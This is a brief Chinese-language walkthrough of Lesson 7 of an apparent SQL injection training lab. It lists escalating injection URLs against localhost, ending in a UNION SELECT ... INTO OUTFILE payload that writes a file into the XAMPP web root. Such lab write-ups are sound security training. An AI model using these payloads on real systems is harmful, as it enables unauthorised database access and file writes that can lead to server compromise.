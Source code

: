 # Lesson-07
```
into-outfile
```

这一题的主要难度在于 : 
1. 猜测SQL语句
2. 寻找网站的绝对路径
```
http://127.0.0.1/Less-7/?id=1
http://127.0.0.1/Less-7/?id=1%27
http://127.0.0.1/Less-7/?id=1%27)--+
http://127.0.0.1/Less-7/?id=1%27))--+
http://127.0.0.1/Less-7/?id=1%27))%20union%20select%201,2,3%20into%20outfile%20%27c:\\xampp\\htdocs\\Less-7\\outfile.txt%27--+
```
